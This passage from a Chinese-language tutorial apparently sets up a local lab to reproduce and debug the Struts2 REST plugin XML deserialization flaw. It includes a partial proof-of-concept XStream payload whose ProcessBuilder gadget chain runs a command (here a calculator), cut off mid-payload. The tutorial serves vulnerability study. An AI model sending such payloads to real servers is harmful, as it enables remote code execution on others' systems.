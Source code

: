 ![artifacts]({{ site.url }}/images/articles/201709/struts2/artifacts.png)

设置完成后，点击OK。然后在项目文件树中，右击pom.xml，选择Maven -> Reimport 导入类库。

## 1.2 设置启动选项
接下来配置容器启动选项，选择菜单中的Run -> Edit Configurations，点击+号，选择TomcatServer -> Local。
在右侧将名称设置为`Struts2-rest-showcase-TestServer`。在Server选项卡中设置Tomcat的一些配置选项，JRE选择1.8。然后在Deployment选项卡中点击+号，指定一个Artifact作为启动容器时的部署源。设置Application context，设置为该应用的访问路径，如无特殊需求，保留默认即可。

***Tips：Java SDK 选择1.8，测试1.7.0_71中未复现成功，在1.8.0_102中成功复现了。***

![tomcat]({{ site.url }}/images/articles/201709/struts2/tomcat.png)

然后点击菜单，Run -> Run 'Struts2-rest-showcase-TestServer'，进行项目编译并启动Module struts2-rest-showcase。

不出意外可以看到浏览器成功访问到rest-showcase应用：

![demo]({{ site.url }}/images/articles/201709/struts2/demo.png)

## 1.3 附加源码
点击项目结构树中的External Libraries，选择 `Maven: org.apache.struts:struts2-rest-plugin:2.5.12`，随便点开一个class，在右侧文件窗口右上角点击Download Sources，自动下载类库对应的源码。

![downloadsources]({{ site.url }}/images/articles/201709/struts2/downloadsources.png)

之后就可以在源码中下断点，进行Debug。

# 2. 调试分析

## 2.1 漏洞复现

在页面http://localhost:8088/orders/3/edit中点击Submit，拦截HTTP请求并将请求体改为POC Payload，同时将Content-Type Header改为application/xml。

POC Payload为：

```xml
<map> 
  <entry> 
    <jdk.nashorn.internal.objects.NativeString> 
      <flags>0</flags>  
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> 
        <dataHandler> 
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> 
            <is class="javax.crypto.CipherInputStream"> 
              <cipher class="javax.crypto.NullCipher"> 
                <initialized>false</initialized>  
                <opmode>0</opmode>  
                <serviceIterator class="javax.imageio.spi.FilterIterator"> 
                  <iter class="javax.imageio.spi.FilterIterator"> 
                    <iter class="java.util.Collections$EmptyIterator"/>  
                    <next class="java.lang.ProcessBuilder"> 
                      <command> 
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string> 
                      </command>  
                      <redirectErrorStream>false</redirectErrorStream> 
                    </next> 
                  </iter>  
                  <filter class="javax.imageio.ImageIO$ContainsFilter"> 
                    <method> 
                      <class>java.lang.ProcessBuilder</class>  
                      <name>start</name>  
                      <parameter-types/> 
```